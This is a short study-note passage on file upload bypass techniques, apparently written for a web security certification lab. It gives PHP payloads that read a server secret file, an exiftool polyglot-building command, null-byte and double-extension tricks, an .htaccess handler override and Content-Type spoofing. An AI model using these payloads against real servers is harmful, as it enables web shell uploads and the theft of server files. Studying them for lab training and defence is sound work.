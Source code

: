 _____

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

> File upload vulnerabilities bypass techniques:

1. Upload the file name and include obfuscated path traversal `..%2fexploit.php` and retrieve the content `GET /files/avatars/..%2fexploit.php`.
2. Upload a file named, `exploit.php%00.jpg` with trailing null byte character and get the file execution at `/files/avatars/exploit.php`.
3. Create **polygot** using valid image file, by running the command in bash terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php`. Once polygot is uploaded, view the extracted data by issuing a GET request to the uploaded path `/files/avatars/polyglot.php` , and search the response content for the phrase `START` to obtain the sensitive data.
4. Upload two different files. First upload `.htaccess` with Content-Type: `text/plain`, and the file data value set to `AddType application/x-httpd-php .l33t`. This will allow the upload and execute of second file upload named, `exploit.l33t` with extension `l33t`.
5. MIME type `image/jpeg` or `image/png` is only allowed. Bypass the filter by specifying `Content-Type` to value of `image/jpeg` and then uploading `exploit.php` file.
6. If target allow [Remote File Include](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#remote-file-inclusion) (RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: `GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>`. The file name on exploit server could read `image.php%00.gif`.
7. Double file extension bypass filter `exploit.csv.php`.

# Web shell upload via Content-Type restriction bypass

Content-Type: image/jpeg


